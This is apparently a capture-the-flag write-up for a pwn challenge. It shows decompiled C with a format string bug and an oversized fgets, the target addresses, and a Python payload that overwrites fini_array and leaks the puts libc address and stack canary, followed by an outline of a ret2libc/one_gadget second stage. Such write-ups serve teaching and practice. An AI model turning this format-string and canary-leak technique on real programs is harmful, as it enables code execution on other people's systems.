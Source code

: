 Decompile with Ghidra:
```c
undefined8 vuln(void)

{
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("YOU ONLY GET ONE CHANCE SO....");
  puts(&DAT_00402027);
  fgets(local_58,0x7c,stdin);
  printf(local_58);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

We can already see a format string vulnerability:

```c
printf(local_58);
```

And potentially a buffer-overflow?
```c
char local_58 [72];
```
```c
fgets(local_58,0x7c,stdin);
```

Without PIE enabled, it became quite trivial to leak puts libc address, and with format string vulnerability we can also leak the canary value. With that in mind, my attack was to overwrite `fini_array` to our `main_addr`, leak `puts_libc_address`, leak `canary` in my first payload

We have these addresses:
```
fini = 0x4031e0
main_addr = 0x00401292
puts_got = 0x4033e0
```
Constructing our first payload:
```python
payload = "%12$4754x%12$hn|EOF%15$llx%11$s".ljust(40,"A") + p64(puts_got) + p64(fini)
```
`canary` had the offset of `%15$llx`

With leaked puts libc address, we get the libc version. Then on our second run of main function, we will perform a ret2libc attack with one_gadget (similar to the last 2 challenges) and the canary value we leaked

